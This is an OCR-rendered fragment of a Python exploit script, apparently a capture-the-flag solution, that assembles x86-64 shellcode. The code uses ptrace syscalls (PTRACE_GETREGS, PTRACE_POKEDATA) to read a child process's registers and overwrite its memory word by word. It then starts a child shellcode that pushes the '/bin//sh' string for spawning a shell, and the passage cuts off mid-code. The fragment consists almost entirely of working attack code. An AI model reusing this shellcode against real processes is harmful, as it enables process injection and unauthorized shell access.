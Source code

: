 ```python 
mov rdi, {PTRACE_GETREGS}
mov rsi, {child_pid}
mov rdx, 0
mov r10, rsp
mov rax,0x65
syscall
mov rcx,0xff00
l2:
	nop
loop l2


""")
def modify(addr: int,value: int):
	return asm(f"""
	mov r8,{addr}
	mov rdi, {PTRACE_POKEDATA}
	mov rsi, {child_pid}
	lea rdx,[r8]
	mov r10, {value}
	mov rax,0x65
	syscall

mov rcx,0xff00
l:
	nop
loop l

	add rdx,2
	mov r10, {value >> 2*8}
	mov rax,0x65
	syscall

mov rcx,0xff00
l1:
	nop
loop l1

	add rdx,2
	mov r10, {value >> 4*8}
	mov rax,0x65
	syscall

mov rcx,0xff00
l2:
	nop
loop l2

	add rdx,2
	mov r10, {value >> 6*8}
	mov rax,0x65
	syscall

mov rcx,0xff00
l3:
	nop
loop l3
	    """)

child_shellcode = asm("""
	xor 	esi,esi	
	push	rsi	
	mov 	rdi,0x68732f2f6e69622f
```
